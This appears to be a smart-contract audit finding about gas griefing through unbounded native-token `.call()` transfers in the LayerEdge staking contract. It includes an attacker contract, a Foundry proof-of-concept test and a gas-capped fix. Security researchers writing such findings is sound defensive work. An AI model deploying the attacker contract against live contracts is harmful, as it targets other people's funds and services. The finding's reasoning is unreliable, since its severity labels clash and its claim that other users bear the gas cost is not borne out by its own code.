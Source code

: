 Faithful Viridian Pelican

Medium

# Gas Griefing Attack via Native Token Transfers


## Summary

The LayerEdge staking contract contains a critical vulnerability that allows malicious users to perform gas griefing attacks against other users during unstaking and interest claiming operations when using native tokens. The vulnerability exists in the native token transfer logic where the contract uses low-level `.call() `without gas limits, allowing recipients to consume excessive gas and potentially cause transactions to fail.

## Reference code

https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L770-L774

## Vulnerability Details

The contract uses unbounded `.call()` for native token transfers in two critical functions:

```solidity
// In completeUnstake function (lines 767-774)
if (!isNative) {
    require(stakingToken.transfer(userAddr, request.amount), "Token transfer failed");
} else {
    IWETH(address(stakingToken)).withdraw(request.amount);
    (bool success,) = payable(userAddr).call{value: request.amount}(""); //@audit griefing attack
    require(success, "Unstake native transfer failed");
}

// In claimInterest function (lines 797-804)
if (!isNative) {
    require(stakingToken.transfer(userAddr, claimable), "Token transfer failed");
} else {
    IWETH(address(stakingToken)).withdraw(claimable);
    (bool success,) = payable(userAddr).call{value: claimable}(""); //@audit gas griefing
    require(success, "Claim interest native transfer failed");
}
```


**Attack Vector**

- Malicious Contract Setup: Attacker deploys a contract that stakes native tokens
- Gas Consumption Logic: The malicious contract implements a receive() or fallback() function that consumes large amounts of gas
- Griefing Execution: When the attacker unstakes or claims rewards, their contract's receive function executes with unlimited gas


**Vulnerable Code Pattern:**

```solidity
(bool success,) = payable(userAddr).call{value: amount}("");
```


**Attack Contract Example:**

```solidity
contract GriefingAttacker {
    LayerEdgeStaking public staking;
    
    constructor(address _staking) {
        staking = LayerEdgeStaking(_staking);
    }
    
    function attack() external payable {
        // Stake native tokens
        staking.stake{value: msg.value}(msg.value);
        
        // Later unstake to trigger griefing
        staking.unstake(msg.value);
        // When completeUnstake is called, receive() will consume excessive gas
    }
    
    receive() external payable {
        // Malicious gas consumption
        for(uint i = 0; i < 10000; i++) {
            // Expensive operations
            keccak256(abi.encodePacked(block.timestamp, i));
        }
    }
}
```


## Impact Assessment
- Severity: HIGH

1. Attackers can force extremely high gas consumption leading to Legitimate users to face unexpectedly high transaction costs and Potential for DoS if gas consumption exceeds block limits


## Proof of Concept

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import {LayerEdgeStaking} from "../src/stake/LayerEdgeStaking.sol";

contract GasGriefingTest is Test {
    LayerEdgeStaking public staking;
    GriefingAttacker public attacker;
    
    function setUp() public {
        // Deploy staking contract with native token support
        staking = new LayerEdgeStaking();
        attacker = new GriefingAttacker(address(staking));
    }
    
    function testGasGriefingAttack() public {
        // Fund the attacker
        vm.deal(address(attacker), 10 ether);
        
        // Attacker stakes native tokens
        attacker.attack{value: 5 ether}();
        
        // Advance time past unstaking window
        vm.warp(block.timestamp + 7 days + 1);
        
        // Measure gas consumption for unstaking
        uint256 gasBefore = gasleft();
        attacker.completeUnstake(0);
        uint256 gasUsed = gasBefore - gasleft();
        
        // Assert excessive gas consumption
        assertTrue(gasUsed > 100000, "Gas griefing attack successful");
    }
}

contract GriefingAttacker {
    LayerEdgeStaking public staking;
    
    constructor(address _staking) {
        staking = LayerEdgeStaking(_staking);
    }
    
    function attack() external payable {
        staking.stake{value: msg.value}(msg.value);
        staking.unstake(msg.value);
    }
    
    function completeUnstake(uint256 requestIndex) external {
        staking.completeUnstake(requestIndex);
    }
    
    receive() external payable {
        // Consume excessive gas
        for(uint i = 0; i < 5000; i++) {
            keccak256(abi.encodePacked(block.timestamp, block.difficulty, i));
        }
    }
}
```


## Recommended Fix

Primary Solution: Implement Gas Limit

// Fixed version with gas limits

```solidity
if (!isNative) {
    require(stakingToken.transfer(userAddr, request.amount), "Token transfer failed");
} else {
    IWETH(address(stakingToken)).withdraw(request.amount);
    
    // Use limited gas for the call (2300 gas is standard for simple transfers)
    (bool success,) = payable(userAddr).call{value: request.amount, gas: 2300}("");
    
    if (!success) {
        // If transfer fails, store the amount for manual withdrawal
        pendingWithdrawals[userAddr] += request.amount;
        emit WithdrawalFailed(userAddr, request.amount);
    }
}
```







